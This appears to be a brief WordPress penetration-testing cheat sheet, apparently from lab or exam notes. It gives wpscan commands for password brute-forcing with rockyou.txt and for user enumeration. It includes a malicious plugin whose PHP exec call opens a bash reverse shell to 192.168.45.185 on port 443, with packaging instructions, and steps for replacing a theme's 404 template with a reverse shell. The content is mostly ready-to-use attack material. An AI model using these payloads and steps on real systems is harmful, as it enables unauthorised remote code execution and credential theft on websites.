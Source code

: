 ### Enum
```
sudo wpscan --url url
sudo wpscan --url url --usernames admin --passwords rockyou.txt
```
enum users
```
sudo wpscan --url https://ip/ --enumerate u
```

### Upload Plugin to RCE
```
<?php
/**
* Author: Saeed Bala
* Plugin Name: PHP Code Plugin
* Description: Shell Through Plugins
* Version: 1.0
*/
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.185/443 0>&1'");
?>

zip -r plug.zip index.php
```
### Update Theme File to RCE 
```
1. Location: Backend -> Theme Editor -> Theme Files -> 404 Template
2. Replace with your rev php shell
3.Access the 404 Template
http://192.168.199.55/shenzi/404.php
```
